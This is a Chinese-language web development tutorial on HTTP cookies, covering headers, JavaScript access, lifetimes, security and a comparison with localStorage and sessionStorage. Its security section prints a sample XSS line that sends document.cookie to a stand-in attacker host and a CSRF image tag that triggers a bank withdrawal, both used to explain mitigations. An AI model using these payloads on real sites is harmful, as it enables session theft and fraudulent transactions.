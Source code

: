 ## 什么是 Cookie

了解 http 的同学，肯定知道，http 是一个不保存状态的协议，什么叫不保存状态，就是一个服务器是不清楚是不是同一个浏览器在访问他，这时候 cookie 就出现了，cookie 就是一种浏览器管理状态的一个文件。

通过 cookie 可以将一些信息存储在浏览器上，

- 当用户访问 web 页面时，他的名字可以记录在 cookie 中。
- 在用户下一次访问该页面时，可以在 cookie 中读取用户访问记录。

Cookie 以名/值对形式存储，如下所示:

```
username=John Doe
```

## 响应头和 Cookie

### Set-Cookie

当服务器收到 HTTP 请求时，服务器使用 `Set-Cookie` 响应头部向用户代理（一般是浏览器）发送 Cookie 信息。一个简单的 Cookie 可能像这样：

```
Set-Cookie: <cookie名>=<cookie值>
```

### Cookie

浏览器会将  `Set-Cookie` 中的 Cookie 信息保存下来，在之后的每一次新请求上，通过 `Cookie` 请求头部再发送给服务器。

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

## JS 和 Cookie

通过 `document.cookie` 属性可创建新的 Cookie，也可通过该属性访问非 `HttpOnly` 标记的 Cookie。

```js
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

通过 JavaScript 创建的 Cookie 不能包含 `HttpOnly` 标志。

**测试的时候需要注意：** 在本地打开 HTML 文件，Chrome 的控制台无法用 JavaScript 读写操作 Cookies。

## 生命周期

Cookie 的生命周期可以通过两种方式定义：

- **会话期 Cookie** 是最简单的 Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。会话期 Cookie 不需要指定过期时间（Expires）或者有效期（Max-Age）。**需要注意的是，** 有些浏览器提供了会话恢复功能，这种情况下即使关闭了浏览器，会话期 Cookie 也会被保留下来，就好像浏览器从来没有关闭一样，这会导致 Cookie 的生命周期无限期延长。
- **持久性 Cookie** 的生命周期取决于过期时间（`Expires`）或有效期（`Max-Age`）指定的一段时间。

## 安全

> 信息被存在 Cookie 中时，需要明白 cookie 的值时可以被访问，且可以被终端用户所修改的。
> 当机器处于不安全环境时，切记不能通过 HTTP Cookie 存储、传输敏感信息。

**缓解涉及 Cookie 的攻击的方法：**

- 使用 `HttpOnly` 属性可防止通过 JavaScript 访问 `cookie` 值。
- 用于敏感信息（例如指示身份验证）的 Cookie 的生存期应较短，并且 SameSite 属性设置为 Strict 或 Lax。（请参见上方的 SameSite Cookie。）在支持 SameSite 的浏览器中，这样做的作用是确保不与跨域请求一起发送身份验证 cookie，因此，这种请求实际上不会向应用服务器进行身份验证。

### 会话劫持和 XSS

在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。

```js
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

HttpOnly 类型的 Cookie 用于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击。

### 跨站请求伪造（CSRF）

比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```js
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

- 对用户输入进行过滤来阻止 XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的 Cookie 只能拥有较短的生命周期；

## Cookie vs localStorage vs sessionStorage

### 生命周期：

- cookie：可设置失效时间，没有设置的话，默认是关闭浏览器后失效
- localStorage：除非被手动清除，否则将会永久保存。
- sessionStorage： 仅在当前网页会话下有效，关闭页面或浏览器后就会被清除。

### 存放数据大小：

- cookie：4KB 左右
- localStorage 和 sessionStorage：可以保存 5MB 的信息。

### http 请求：

- cookie：每次都会携带在 HTTP 头中，如果使用 cookie 保存过多数据会带来性能问题
- localStorage 和 sessionStorage：仅在客户端（即浏览器）中保存，不参与和服务器的通信

### 易用性：

- cookie：需要程序员自己封装，源生的 Cookie 接口不友好
- localStorage 和 sessionStorage：源生接口可以接受，亦可再次封装来对 Object 和 Array 有更好的支持

## 应用场景：

从安全性来说，因为每次 http 请求都会携带 cookie 信息，这样无形中浪费了带宽，所以 cookie 应该尽可能少的使用，另外 cookie 还需要指定作用域，不可以跨域调用，限制比较多。但是用来识别用户登录来说，cookie 还是比 stprage 更好用的。其他情况下，可以使用 localStorage/sessionStorage，就用 localStorage/sessionStorage。
localStorage/sessionStorage 在存储数据的大小上面秒杀了 cookie，现在基本上很少使用 cookie 了，因为更大总是更好的，哈哈哈你们懂得。
localStorage 和 sessionStorage 唯一的差别一个是永久保存在浏览器里面，一个是关闭网页就清除了信息。localStorage 可以用来夸页面传递参数，sessionStorage 用来保存一些临时的数据，防止用户刷新页面之后丢失了一些参数。
